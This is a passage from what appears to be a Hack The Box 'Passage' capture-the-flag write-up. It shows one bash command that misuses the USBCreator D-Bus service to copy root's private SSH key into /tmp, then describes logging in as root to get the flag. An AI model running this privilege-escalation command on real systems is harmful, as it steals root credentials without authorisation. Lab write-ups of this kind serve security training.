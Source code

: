 {{<code language="bash" title="Copying root's private ssh key">}}
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/id_rsa true
{{</code>}}

{{<figure src="/img/htb/passage/root_idrsa.png" position=center caption="Root's private ssh key">}}

With this key, we can log in as root and retrieve the root flag.

{{<figure src="/img/htb/passage/root.txt.png" position=center caption="Root flag obtained !">}}
![](/assets/img/htb/passage/root.txt.png)

